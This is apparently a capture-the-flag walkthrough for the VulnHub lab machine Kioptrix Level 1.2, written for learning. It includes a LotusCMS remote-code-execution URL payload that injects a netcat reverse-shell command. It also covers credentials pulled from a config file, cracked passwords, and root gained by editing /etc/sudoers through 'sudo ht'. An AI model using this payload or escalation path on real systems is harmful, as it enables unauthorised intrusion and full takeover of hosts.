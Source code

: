 # Kioptrix: Level 1.2 

- [Tools](#tools)
- [Gaining Access](#gaining-access)
- [Priviledge Escalation](#priviledge-escalation)

Machine: [https://www.vulnhub.com/entry/kioptrix-level-12-3,24/](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/)

## Tools
1. [NMap](https://NMap.org)
2. dirb
3. Netcat

## Gaining Access
1. Got IP with netdiscover, in my case IP is 192.168.0.13. At first as usual scanned with nmap.
2. Running dirb gives us some links.
3. If we open the ip there is a website. 
4. If we click on login, we can get login panel powered by LotusCMS.
5. If we google `LotusCMS RCE exploit`. We can find many exploits to get RCE. So, I studied the exploit and crafted a payload for reverse shell. Opening the crafted link gives reverse shell. `http://192.168.0.13/index.php?page=index%27)%3B%24{system(%27nc+-e+%2Fbin%2Fsh+<ip address>+<port number>%27)}%3B%23` while listening on netcat if we open that link we will get a reverse shell.

## Priviledge Escalation
1. After some searching, I got some credentials inside `/home/www/kioptrix3.com/gallery/gconfig.php`.
2. We can use this credential on a previously found link using dirb `http://192.168.0.13/phpmyadmin/`. 
3. After logging in we get two username and hash inside database.
4. So, if we decrypt those hash using crackstation, we get password of `dreg` is `Mast3r` and pasword of `loneferret` is `starwars`.
5. We can get ssh using those credentials. As dreg I got nothing important. So, I tried `loneferret` and `sudo` is enabled there and got some `sudo binary`.
6. `su` is not exploitable as user `loneferret`, so I tried to exploit `ht` and to exploit `ht` I need to `export TERM=xterm`.
7. Now I found this article https://vk9-sec.com/ht-privilege-escalation/ and followed these simple steps to root. So, at first I opened `sudo ht` and then pressed `F3` to select `/etc/sudoers` to open.
8. Now added `/bin/bash` to sudoers as instructed in the article and saved the file with `F2` and quit with `F10` or `CTRL+C`.
9. Now just use `sudo /bin/bash` to get root shell.
10. Now we can find a file `Congrats.txt` inside `/root` directory and this is the flag file containing a big paragraph.

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
